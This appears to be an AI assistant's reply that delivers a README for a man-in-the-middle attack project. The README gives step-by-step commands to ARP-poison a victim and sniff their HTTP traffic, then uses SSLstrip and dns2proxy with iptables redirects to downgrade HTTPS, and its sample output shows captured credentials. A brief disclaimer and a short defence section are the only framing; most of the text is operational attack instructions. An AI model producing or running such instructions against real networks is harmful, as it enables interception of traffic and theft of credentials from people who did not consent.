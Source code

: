 Thanks! Here's the updated **README**, now including information on sniffing HTTPS traffic using **dns2proxy** and **SSLstrip+**.  

---

# **MITM Attack Using ARP Poisoning & Packet Sniffing**  

## **📌 Overview**  
This project demonstrates a **Man-in-the-Middle (MITM) attack** using:  
- **ARP Poisoning**: Redirects network traffic through the attacker's machine.  
- **Packet Sniffing**: Captures and analyzes intercepted HTTP traffic.  

⚠️ **Disclaimer:** This project is for **educational purposes only**. Do not use it on unauthorized networks.  

---

## **🛠️ Setup & Installation**  

### **1️⃣ Install Dependencies**  
Ensure you have Python and Scapy installed:  
```bash
sudo apt update
sudo apt install python3-pip
pip3 install scapy
```

### **2️⃣ Network Configuration**  
- Use **VirtualBox NAT Network** to connect both machines.  
- The target machine should have **internet access**.  

To check IP addresses:  
```bash
ip a
```

---

## **🚀 Running the Attack**  

### **1️⃣ Start ARP Poisoning**  
Replace `TARGET_IP` with the victim’s IP and `GATEWAY_IP` with the router's IP:  
```bash
sudo python3 arp_poisoning.py -t TARGET_IP -p GATEWAY_IP
```

This tricks the victim into sending traffic through the attacker’s machine.  

---

### **2️⃣ Start Packet Sniffing**  
Find your network interface (`ifconfig` or `ip a`), then start sniffing:  
```bash
sudo python3 packet_sniffer.py
```

This captures **HTTP requests** and extracts potential sensitive data.  

---

## **🔄 Running Both Scripts Together**  
You can run both scripts simultaneously using:  
```bash
sudo python3 arp_poisoning.py -t TARGET_IP -p GATEWAY_IP &  
sudo python3 packet_sniffer.py  
```

- The `&` runs **ARP Poisoning in the background**.  
- The **sniffer runs in the foreground**, showing captured packets.  

---

## **📌 Expected Results**  
If successful:  
✅ The victim’s internet **slows down or stops working**.  
✅ The attacker sees **captured HTTP data** (e.g., credentials).  

🔹 **Example Output** from Packet Sniffer:  
```
b'username=admin&password=123456'
```

---

## **🔐 Sniffing HTTPS Traffic (Bypassing HTTPS Security)**  
Since most websites use **HTTPS**, normal packet sniffing will not capture useful data. To intercept encrypted traffic, use **SSLstrip+ and dns2proxy**.

### **1️⃣ Install SSLstrip+ and dns2proxy**  
```bash
git clone https://github.com/LeonardoNve/dns2proxy.git
git clone https://github.com/moxie0/sslstrip.git
cd sslstrip
sudo python3 setup.py install
```

### **2️⃣ Enable IP Forwarding & Redirect Traffic**  
```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 8080
```

### **3️⃣ Run dns2proxy**  
```bash
cd dns2proxy
sudo python3 dns2proxy.py
```

### **4️⃣ Run SSLstrip+**  
```bash
sudo sslstrip -l 8080
```

Now, encrypted HTTPS traffic will be downgraded to HTTP, allowing **MITM attacks** to capture sensitive data.  

---

## **🛑 Stopping the Attack**  
Press `CTRL+C` to stop both scripts. The ARP table will automatically reset.  

To disable IP forwarding:  
```bash
echo 0 | sudo tee /proc/sys/net/ipv4/ip_forward
```

To clear iptables rules:  
```bash
sudo iptables --flush
```

---

## **🛡️ How to Protect Against ARP Spoofing?**  
- Use **static ARP tables** (`arp -s <IP> <MAC>`).  
- Enable **ARP Spoofing Protection** in your firewall.  
- Always use **HTTPS** instead of HTTP.  
- Implement **HSTS (HTTP Strict Transport Security)** to prevent SSLstrip attacks.  

---

## **📎 Notes**  
- This method **only works on HTTP traffic** (not HTTPS) unless SSLstrip+ is used.  
- The **MITM attack will disrupt** the victim’s internet connection.  
- If the **victim's internet completely stops**, lower the attack rate by adding a `time.sleep(5)` in `arp_poisoning.py`.  

---

## **👨‍💻 Author**  
Developed by **Ahmet Önal** for educational cybersecurity research.  

🚀 **Ethical hacking is a responsibility. Use wisely!**  

---

This README now includes **SSLstrip+ and dns2proxy** for HTTPS interception. Let me know if you need further refinements! 🚀
